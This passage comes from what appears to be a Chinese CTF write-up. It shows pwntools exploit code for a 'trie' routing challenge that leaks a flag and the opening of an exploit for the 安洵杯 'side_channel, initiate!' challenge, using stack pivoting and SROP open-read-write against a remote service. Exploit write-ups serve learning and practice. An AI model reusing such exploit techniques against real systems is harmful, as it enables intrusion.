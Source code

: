 ```python
    menu(2)
    ru("Input destination IP:")
    sl(ip)
    ru("The next hop is ")

def decode_flag(flag):
    flag=flag.decode()
    ascii_representation = ''.join(chr(int(x)) for x in flag.split('.'))[::-1]
    print(ascii_representation)

leak_list=["255.255.255.255","128.0.0.0","192.0.0.0","224.0.0.0","240.0.0.0","248.0.0.0"]
#leak_list=["255.255.255.255","127.255.255.255","63.255.255.255","31.255.255.255","15.255.255.255","7.255.255.255"]
for leak_ip in leak_list:
    p=process('./trie')
    add("0.0.0.0","0.0.0.0")
    add("255.255.255.255","0.0.0.0")
    #mydbg()
    add(leak_ip,"0.0.0.0")
    menu(3)
    show(leak_ip)
    flag=ru("\n")[:-1]
    decode_flag(flag)
    p.close()

```



### A-rstp

待做

## 安洵杯 I-SOON x D0g3

### side_channel , initiate!

首先让bss段读入ROP链，然后栈迁移执行ROP链，ROP链中使用SROP ORW一把嗦

```python
from pwn import*
context.arch='amd64'
context.log_level='debug'
p=remote("47.108.206.43",26637)
#p=process('./chall')

s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
	gdb.attach(p)
	pause()
bss=0x0404060
leave_ret=0x000000000040136c
mov_rax_15_ret=0x401193 
```